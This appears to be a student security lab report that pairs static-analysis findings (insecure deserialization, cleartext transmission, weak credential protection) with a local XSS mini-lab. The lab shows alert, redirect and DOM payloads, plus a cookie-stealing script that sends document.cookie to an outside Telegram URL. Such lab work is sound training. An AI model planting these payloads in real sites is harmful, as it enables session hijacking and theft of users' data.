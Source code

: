 #### Mitigations:
1. **ERROR Severity Finding**
   - **Issue:** Deserialization of Untrusted Data
   - **CWE:** CWE-502
   - **OWASP:** A8: Insecure Deserialization
   - **Mitigation:** Avoid deserializing untrusted data. If deserialization is necessary, implement strict validation and sanitization of the input data.

2. **WARNING Severity Finding**
   - **Issue:** Cleartext Transmission of Sensitive Information
   - **CWE:** CWE-319
   - **OWASP:** A6: Security Misconfiguration
   - **Mitigation:** Ensure that the database connection uses TLS to encrypt data in transit.

3. **INFO Severity Finding**
   - **Issue:** Insufficiently Protected Credentials
   - **CWE:** CWE-522
   - **OWASP:** A2: Broken Authentication
   - **Mitigation:** Change the default session cookie name to a unique, non-default value.

---

## Task 2 - Web Security Mini Labs

### 2.1 Cross Site Scripting (XSS)
```bash
docker run -p 127.0.0.1:5000:5000 sh3b0/vuln:xss
```
- **Simple Alert:**
  ```xss
  <script>alert('<Muhibullo> XSS');</script>
  ```
  ![Simple Alert](https://i.ibb.co/v40Mgyzm/Screenshot-2025-03-04-184414.png)

- **Redirect User:**
  ```xss
  <script>window.location='https://t.me/QWERTY_5999';</script>
  ```
  ![Redirect User](https://i.ibb.co/Mkp61WY8/Screenshot-2025-03-04-185027.png)

- **Steal Cookies:**
  ```xss
  <script>document.location='https://t.me/QWERTY_5999?cookie='+document.cookie;</script>
  ```
  ![Steal Cookies](https://i.ibb.co/0SpXpFK/Screenshot-2025-03-04-185727.png)

- **DOM-Based XSS:**
  ```xss
  <img src="x" onerror="alert('XSS')">
  ```
  ![DOM-Based XSS](https://i.ibb.co/yBPt6XSP/Screenshot-2025-03-04-190001.png)
